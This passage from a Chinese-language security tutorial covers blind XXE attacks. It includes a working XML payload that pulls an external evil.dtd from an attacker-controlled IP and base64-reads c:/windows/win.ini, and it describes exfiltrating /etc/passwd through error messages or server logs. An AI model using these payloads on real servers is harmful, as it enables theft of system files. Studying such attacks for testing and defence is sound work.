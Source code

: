 访问时，存在漏洞的服务器会读出`c:/windows/win.ini`内容并且进行base64编码，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

![image-20211128183520495](XXE.assets/image-20211128183520495.png)

![image-20211128183559032](XXE.assets/image-20211128183559032.png)

**方法二：**

思路就是在没有回显的时候，我们将读取的文件带出来，举一个例子就是，我们如果将/etc/passwd文件赋给实体test，那么我们在访问`http://192.168.220.128?%test`时，如果有报错信息可以查看报错信息有没有，还可以查看我们服务器上的日志文件，日志文件会保存/etc/passwd的文件内容

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY % remote SYSTEM "http://192.168.220.128/evil.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
%remote;
]>
<user><username>&send;</username><password>admin</password></user>
```

evil.dtd的内容，内部的%号要进行实体编码成`&#x25`,因为在evil.dtd的实体中不能有%。
